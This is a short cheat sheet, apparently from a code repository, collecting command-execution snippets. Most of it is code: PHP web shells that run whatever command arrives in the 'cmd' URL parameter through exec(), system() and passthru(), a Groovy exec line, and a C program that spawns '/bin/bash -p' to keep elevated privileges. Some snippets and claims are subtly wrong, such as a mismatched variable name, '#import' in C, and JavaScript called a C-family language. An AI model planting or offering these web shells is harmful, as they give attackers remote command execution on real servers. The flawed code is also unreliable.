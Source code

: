 # EXEC in Many Languages
This cheat sheet will provide many different examples of how to perform system(), exec(), and more in different web languages.
## WEB LANGUAGES
### PHP
PHP is widely used and can often have the system(), exec(), etc functions eenabled in the php.ini configuration file.
#### Exec()
```
<?php
 exec($_GET['cmd'],$response);
 var_dump($output) # dump entire object to DOM
 ?>
```
#### System()
```
<?php
 echo system($_GET['cmd']); # "echo()s" to the DOM
 ?>
```
#### Passthru()
```
<?php
 passthru($_GET['cmd']); # displays right to the DOM
 ?>
```
### Groovy
Groovy/Java can execute commands and print the output like so,
```
print "cmd /c mvn".execute().text
```
## C LANGUAGES
C and C-family languages usually require compilation, with the exception of JavaScript.
### C
```
#import<stdio.h>
int main(void){
 system("/bin/bash -p");
 return 0;

}
```
